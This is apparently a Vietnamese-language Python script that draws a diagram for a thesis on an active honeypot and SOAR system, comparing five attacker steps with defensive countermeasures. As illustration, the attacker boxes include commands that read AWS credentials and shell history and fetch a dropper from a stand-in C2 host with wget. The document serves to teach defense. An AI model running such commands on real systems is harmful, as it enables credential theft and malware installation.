

The script that saved this image:
"""
Script: generate_scenario_matrix_diagram.py
Mục đích: Vẽ sơ đồ so sánh trực quan Kịch bản Tấn công (Attacker) vs Đòn Phản công Chủ động (Active Defense).
Thiết kế: Phong cách học thuật sắc nét, bố cục 2 luồng đối chiếu song song (Dual-Track Flowchart), chuẩn in ấn đồ án (300 DPI).
"""

import sys
if sys.stdout:
    try:
        sys.stdout.reconfigure(encoding='utf-8')
    except Exception:
        pass

import os
import matplotlib.pyplot as plt
import matplotlib.patches as patches

# Cấu hình kích thước ảnh chất lượng cao
fig, ax = plt.subplots(figsize=(15, 9.5), dpi=300, facecolor='#ffffff')
ax.set_facecolor('#ffffff')
ax.set_xlim(0, 100)
ax.set_ylim(0, 100)
ax.axis('off')

# Font mặc định
plt.rcParams['font.sans-serif'] = ['Segoe UI', 'Arial', 'DejaVu Sans', 'Tahoma']

# Header tiêu đề chính
ax.text(50, 96, "BẢNG ĐỐI CHIẾU: KỊCH BẢN TẤN CÔNG & ĐÒN PHẢN CÔNG CHỦ ĐỘNG", 
        fontsize=15, fontweight='bold', ha='center', color='#111111')
ax.text(50, 92.5, "Mô phỏng chi tiết hành vi của Hacker đối chiếu với phản ứng tương ứng của hệ thống Active Honeypot & SOAR", 
        fontsize=9.5, ha='center', color='#555555')

# Tiêu đề 2 cột
# Cột Trái: Attacker
col_left_header = patches.FancyBboxPatch(
    (5, 85.5), 38, 5,
    boxstyle="round,pad=0.2,rounding_size=0.8",
    facecolor="#fdf2f2", edgecolor="#dc3545", linewidth=1.5
)
ax.add_patch(col_left_header)
ax.text(24, 88, "HÀNH ĐỘNG CỦA KẺ TẤN CÔNG (ATTACKER)", 
        fontsize=10.5, fontweight='bold', ha='center', va='center', color="#b02a37")

# Cột Giữa: MITRE ATT&CK
col_mid_header = patches.FancyBboxPatch(
    (45, 85.5), 10, 5,
    boxstyle="round,pad=0.2,rounding_size=0.8",
    facecolor="#f8f9fa", edgecolor="#6c757d", linewidth=1.2
)
ax.add_patch(col_mid_header)
ax.text(50, 88, "KỸ THUẬT", fontsize=10, fontweight='bold', ha='center', va='center', color="#495057")

# Cột Phải: Active Defense
col_right_header = patches.FancyBboxPatch(
    (57, 85.5), 38, 5,
    boxstyle="round,pad=0.2,rounding_size=0.8",
    facecolor="#f0fdf4", edgecolor="#198754", linewidth=1.5
)
ax.add_patch(col_right_header)
ax.text(76, 88, "ĐÒN PHẢN CÔNG CHỦ ĐỘNG (ACTIVE DEFENSE)", 
        fontsize=10.5, fontweight='bold', ha='center', va='center', color="#146c43")

# Dữ liệu 5 bước đối chiếu
scenarios = [
    {
        "step": 1,
        "y": 71,
        "mitre": "T1110\nBrute Force",
        "attacker_title": "Bước 1: Quét mạng & Đột nhập qua SSH",
        "attacker_desc": [
            "Lệnh: ssh root@192.168.10.130 -p 2222",
            "Dò mật khẩu bằng từ điển (Hydra/Nmap)",
            "Mục tiêu: Đột nhập chiếm quyền điều khiển root"
        ],
        "defense_title": "Đòn 1: Chấp thuận giả & Cô lập VFS (RAM)",
        "defense_desc": [
            "Fake Auth: Chấp nhận mọi mật khẩu hợp lệ",
            "Nhốt hacker vào Virtual File System trong RAM",
            "Hiệu ứng: Hacker tin tưởng 100% đã chiếm server thật"
        ]
    },
    {
        "step": 2,
        "y": 56,
        "mitre": "T1082\nDiscovery",
        "attacker_title": "Bước 2: Dò thư mục & Đọc trộm file nhạy cảm",
        "attacker_desc": [
            "Lệnh: cd /root/.aws && cat credentials",
            "Lệnh: cat /root/.bash_history; cat db_backup.sql",
            "Mục tiêu: Đánh cắp AWS Keys và Database mật"
        ],
        "defense_title": "Đòn 2: Gài 3 lớp bẫy mồi (Honeytokens)",
        "defense_desc": [
            "Gài bẫy AWS credentials chứa Canary Webhook URL",
            "Correlation Engine phân tích lệnh cat/nano nhạy cảm",
            "Hiệu ứng: Kích thích sự tò mò, dẫn dụ hacker lấy link"
        ]
    },
    {
        "step": 3,
        "y": 41,
        "mitre": "T1552.001\nDe-cloaking",
        "attacker_title": "Bước 3: Mở Link kiểm tra trên máy thật",
        "attacker_desc": [
            "Hacker copy URL kiểm tra dán vào Chrome máy thật",
            "URL: http://192.168.10.130:8080/canary/aws_verify...",
            "Request HTTP đi thẳng từ IP thật (bỏ qua Proxy/VPN)"
        ],
        "defense_title": "Đòn 3: Canary Webhook Khử ẩn danh",
        "defense_desc": [
            "Máy chủ Port 8080 chộp lấy IP THẬT (192.168.10.1)",
            "Trích xuất User-Agent thật của hacker (Chrome/Win)",
            "Hiệu ứng: LỘ TRẦN DANH TÍNH, ngụy trang 403 Forbidden"
        ]
    },
    {
        "step": 4,
        "y": 26,
        "mitre": "T1105\nIngress Tool",
        "attacker_title": "Bước 4: Tải mã độc Dropper / Miner",
        "attacker_desc": [
            "Lệnh: wget http://c2.bot/dropper.sh",
            "Toan tính thực thi mã độc chiếm tài nguyên đào coin",
            "Chạy ngầm tiến trình độc hại trong nền"
        ],
        "defense_title": "Đòn 4: Sandbox Cách ly & Quét VirusTotal",
        "defense_desc": [
            "Thu hồi file vào data/quarantine/, tước quyền chmod 0444",
            "Băm mã SHA256 và tra cứu VirusTotal phát hiện Mirai/Miner",
            "Hiệu ứng: Vũ khí của hacker bị tước đoạt ngay lập tức"
        ]
    },
    {
        "step": 5,
        "y": 11,
        "mitre": "Active\nContainment",
        "attacker_title": "Bước 5: Tiếp tục gõ lệnh khai thác",
        "attacker_desc": [
            "Hacker cố gắng gõ lệnh tiếp theo trong phiên SSH",
            "Bất ngờ thấy terminal bị đơ cứng, không phản hồi",
            "Không thoát được session, lãng phí thời gian và CPU"
        ],
        "defense_title": "Đòn 5: Giam lỏng Socket Tarpit & Telegram SOAR",
        "defense_desc": [
            "TCP Tarpit: Bóp nghẹt tốc độ socket 3 giây / 1 byte",
            "Trinh sát ngược OSINT (AbuseIPDB, Shodan, GeoIP)",
            "Hiệu ứng: SOC Analyst bấm nút 1-Click trên Telegram chặn IP"
        ]
    }
]

# Vẽ từng hàng dữ liệu
for row in scenarios:
    y = row["y"]
    h = 12.5
    
    # 1. Hộp Attacker (Trái)
    box_att = patches.FancyBboxPatch(
        (5, y), 38, h,
        boxstyle="round,pad=0.4,rounding_size=0.8",
        facecolor="#ffffff", edgecolor="#e0a1a5", linewidth=1.2
    )
    ax.add_patch(box_att)
    ax.text(6.5, y + h - 2.5, row["attacker_title"], fontsize=9.2, fontweight='bold', color="#b02a37")
    for i, line in enumerate(row["attacker_desc"]):
        ax.text(7.5, y + h - 5.2 - (i * 2.3), f"• {line}", fontsize=8.2, color="#333333")
        
    # 2. Cột Giữa: MITRE Badge + Mũi tên đối chiếu
    box_mid = patches.FancyBboxPatch(
        (45, y + 2.5), 10, h - 5,
        boxstyle="round,pad=0.2,rounding_size=0.6",
        facecolor="#f1f3f5", edgecolor="#adb5bd", linewidth=1.0
    )
    ax.add_patch(box_mid)
    ax.text(50, y + h/2, row["mitre"], fontsize=7.8, fontweight='bold', ha='center', va='center', color="#495057")
    
    # Mũi tên từ Trái -> Giữa
    ax.annotate("", xy=(44.5, y + h/2), xytext=(43, y + h/2),
                arrowprops=dict(arrowstyle="->", color="#dc3545", lw=1.5))
    # Mũi tên từ Giữa -> Phải
    ax.annotate("", xy=(56.5, y + h/2), xytext=(55.2, y + h/2),
                arrowprops=dict(arrowstyle="->", color="#198754", lw=1.5))

    # 3. Hộp Active Defense (Phải)
    box_def = patches.FancyBboxPatch(
        (57, y), 38, h,
        boxstyle="round,pad=0.4,rounding_size=0.8",
        facecolor="#ffffff", edgecolor="#a3cfbb", linewidth=1.2
    )
    ax.add_patch(box_def)
    ax.text(58.5, y + h - 2.5, row["defense_title"], fontsize=9.2, fontweight='bold', color="#146c43")
    for i, line in enumerate(row["defense_desc"]):
        ax.text(59.5, y + h - 5.2 - (i * 2.3), f"• {line}", fontsize=8.2, color="#333333")

# Khung viền ngoài cùng
outer = patches.Rectangle((2, 3), 96, 94, facecolor="none", edgecolor="#ced4da", linewidth=1.0)
ax.add_patch(outer)

# Lưu ảnh
output_path = os.path.abspath("./reports/images/kich_ban_tan_cong_va_phong_thu.png")
os.makedirs(os.path.dirname(output_path), exist_ok=True)
plt.savefig(output_path, dpi=300)
plt.close()
print(f"[+] Đã tạo thành công ảnh bảng đối chiếu: {output_path}")
